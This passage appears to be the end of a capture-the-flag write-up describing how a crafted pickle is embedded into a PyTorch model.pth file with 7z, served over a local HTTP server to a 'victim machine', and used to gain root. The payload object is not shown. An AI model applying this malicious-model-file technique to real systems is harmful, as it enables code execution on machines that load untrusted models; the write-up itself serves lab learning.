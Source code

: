```py
with open('code2.pkl', 'wb') as f:
    pickle.dump(obj, f)

print("Pickle created")
```

And again add it to model.pth with 7z.


```sh
python model.py #Create a new model - not corrupted
7z a model.pth code2.pkl #Add the pickle to the model file
simple-http-server --index #Start the http server to download the file on the victim machine
```

Still errors. After a lot of trying, it looks like 7z is having trouble replacing the data.pkl file, which in turn messes up the script on the victim machine. 

The solution is to use the native kali GUI to open the .pth file and replace the data.pkl file with the Engrampa GUI. 

![image](Scr_16.png)

And just like that, the machine is rooted!

![image](Scr_5.png)
